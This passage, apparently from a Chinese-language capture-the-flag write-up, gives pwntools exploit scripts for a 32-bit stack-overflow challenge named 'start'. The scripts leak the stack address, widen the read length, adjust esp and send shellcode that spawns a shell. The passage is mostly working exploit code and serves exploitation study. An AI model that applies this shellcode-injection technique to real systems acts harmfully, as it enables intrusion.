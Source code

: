 ```
# 由于某些原因，栈的地址和泄露出来的地址偏移不固定，通过 \x90，可以扩大eip指向shellcode的几率。
p.sendline("a" * 0x14 + p32(shell_addr) + "\x90" * 10 + shellcode)

p.interactive()
```

方法二:

1. 通过控制eip到0x804808b,泄露栈的地址
2. 为了解除shellcode的长度限制，需要首先修改dl寄存器的值，扩大dl的值
3. 由于dl的值已经扩大，pwntools自带的shellcode也能读进去，但此时esp和读入的地址重合，首先需要修改esp的值，最终getshell

```
import sys
from pwn import *
context(os='linux', arch='i386', log_level='debug')

GDB = 1
if len(sys.argv) > 2:
    p = remote(sys.argv[1], int(sys.argv[2]))
else:
    p = process("./start")

def main():
    if GDB:
        raw_input()
    payload = p32(0x804808b) # write
    p.recvuntil('CTF:')
    payload = payload.rjust(0x14 + 4, '\x00')
    p.send(payload)

    raw_input()

    leak = u32(p.recv(0x18 + 4)[-4:]) # b0
    shellcode1_addr = leak - (0xa0 - 0xb8)
    shellcode2_addr = leak - (0x310 - 0x33c + 4) + 8
    shellcode = asm(
        '''
        mov dl, 0xff
        ret
        '''
    )

    payload = ""
    payload = payload.ljust(0x30 - 0x04, '\x90')
    assert len(payload) == 0x30 - 0x04
    payload += p32(shellcode1_addr)
    payload += p32(0x8048095)
    payload += shellcode
    p.send(payload)

    payload = ""
    payload = payload.ljust(0xf5c - 0xf14, '\x00')
    payload += p32(shellcode2_addr)
    payload += asm("""
        sub esp, 0x100
    """)
    payload += asm(shellcraft.sh())
    p.send(payload)
    raw_input()
    p.interactive()

if __name__ == "__main__":
    main()
```